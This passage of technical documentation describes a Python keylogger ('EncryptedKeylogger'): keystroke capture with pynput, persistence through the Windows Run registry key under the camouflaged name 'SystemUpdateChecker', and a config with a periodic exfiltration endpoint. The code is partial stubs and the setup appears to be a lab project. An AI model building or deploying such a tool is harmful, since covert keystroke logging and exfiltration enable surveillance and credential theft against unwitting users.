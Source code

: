 #### 2.1.1 Class Structure: `EncryptedKeylogger`

```python
class EncryptedKeylogger:
    def __init__(self):
        self.cipher = get_cipher()           # Fernet encryption instance
        self.log_buffer = []                 # In-memory log storage
        self.start_time = time.time()        # Session start timestamp
        self.running = True                  # Execution state flag
        self.kill_switch_combo = {...}       # Emergency termination keys
        self.current_keys = set()            # Active key tracking
```

#### 2.1.2 Key Capture Mechanism

The keylogger implements a sophisticated key capture system using the `pynput` library:

**Key Press Handler**:
```python
def on_key_press(self, key):
    # Multi-layer processing:
    # 1. Kill switch detection
    # 2. Sensitive application filtering
    # 3. Character vs. special key classification
    # 4. Encryption and storage
```

**Special Key Mapping**:
- Regular characters: Direct capture
- Special keys: Mapped to readable strings (`[ENTER]`, `[BACKSPACE]`, etc.)
- Modifier keys: Tracked for combination detection
- Arrow keys: Directional indicators (`[LEFT]`, `[RIGHT]`, etc.)

#### 2.1.3 Persistence Mechanism

**Windows Registry Integration**:
```python
def setup_persistence(self):
    key_path = r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    # Creates registry entry for automatic startup
    # Entry name: "SystemUpdateChecker" (camouflaged)
```

**Persistence Features**:
- Automatic startup on system boot
- Registry key manipulation
- Stealth naming convention
- Error handling for permission issues

### 2.2 Configuration Management (`config.py`)

#### 2.2.1 System Configuration

```python
CONFIG = {
    'LOG_FILE': 'encrypted_logs.dat',        # Local storage file
    'KEY_FILE': 'encryption.key',            # Encryption key storage
    'SERVER_URL': 'http://localhost:8080/receive',  # Exfiltration endpoint
    'EXFILTRATION_INTERVAL': 300,            # 5-minute intervals
    'MAX_LOG_SIZE': 1024 * 1024,            # 1MB size limit
    'KILL_SWITCH_FILE': 'KILL_SWITCH.txt',  # Emergency stop file
    'PERSISTENCE_NAME': 'SystemUpdateChecker', # Registry entry name
    'LOG_RETENTION_DAYS': 7                  # Automatic cleanup period
}
```
